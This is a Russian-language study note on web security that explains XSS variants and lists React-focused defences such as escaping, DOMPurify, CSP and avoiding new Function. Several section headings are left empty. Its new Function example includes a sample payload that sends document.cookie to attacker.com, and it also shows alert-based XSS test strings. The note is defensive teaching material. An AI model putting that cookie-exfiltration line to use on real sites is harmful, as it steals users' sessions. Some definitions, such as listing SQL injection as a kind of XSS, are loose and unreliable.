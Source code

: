 # ClickJacking

# XSS (Cross Site Scripting)

XSS — это внедрение вредоносного кода на страницы атакуемого сервиса.

- Reflected XSS = Отражённый, потому что его действие сразу же отражается на поведении страницы.
- Stored XSS = "хранимый", это вредоносный код, который каким-то образом сохранился в атакуемом сервисе. Он мог быть записан в базу, сохранён на диске в виде текста, изображения, мог сохраниться в оперативной памяти сервера.
- Injection = самый частый пример - SQL-инъекции
- Key logger = разновидность XSS. Представим, что злоумышленники внедрили код, который отправляет все данные, набранные с клавиатуры

SQL-инъекции
Их суть заключается в доступе к данным атакуемого сервиса или их изменению. Ну или удалению, всякое бывает.

## Защита от XSS

1. Никогда не вставляй HTML напрямую
   не использовать dangerouslySetInnerHTML, если только не уверен в источнике и не очистил HTML.

2. Экранирование пользовательского ввода
   В React JSX по умолчанию все переменные безопасны:

```js
const userInput = '<script>alert("XSS")</script>';

<p>{userInput}</p>; // Безопасно: React экранирует строку
```

Если ты рендеришь HTML вручную (например, в innerHTML), обязательно очищай ввод:

```js
import DOMPurify from "dompurify";

const safeHtml = DOMPurify.sanitize(userInput);
<div dangerouslySetInnerHTML={{ __html: safeHtml }} />;
```

3. Content Security Policy (CSP)
   CSP — это заголовок, который блокирует внедрение внешних скриптов, инлайнового JS и т. д.
   Настраивается на сервере, пример:

```js
Content-Security-Policy: default-src 'self'; script-src 'self'
```

4. Избегай инлайновых обработчиков

```js
<!-- Уязвимо -->
<button onclick="alert(document.cookie)">Click</button>
```

Используй JS-функции, а не строки HTML:

```js
<button onClick={() => alert("safe")}>Click</button>
```

5. Валидация и фильтрация данных на клиенте.

Не пускай в форму всё подряд: даже на клиенте можно ограничивать ввод.
Например, использовать input[type="email"], маски, валидацию.
Но клиентская валидация = удобство, а не защита — всё равно проверяй данные на сервере.

6. Избегать eval, new Function.
   new Function(...) в JavaScript — это динамический способ выполнения кода, очень похожий на eval(). Именно поэтому он опасен и может привести к XSS.

Ты буквально создаешь новую функцию из строки кода, передавая тело функции в виде строки:

```js
const fn = new Function("a", "b", "return a + b");
console.log(fn(2, 3)); // 5
```

Как пример того, что могут закинуть в приложение:

```js
const code = getUserInput(); // "return fetch('http://attacker.com?cookie=' + document.cookie)"
const run = new Function(code); // ❌ уязвимость
run(); // 🧨 злоумышленник получает куки
```

# CSRF (Cross Site Request Forgery)

# Man In The Middle (MITM)

# Denial of Service

# HTTP Request Smuggling

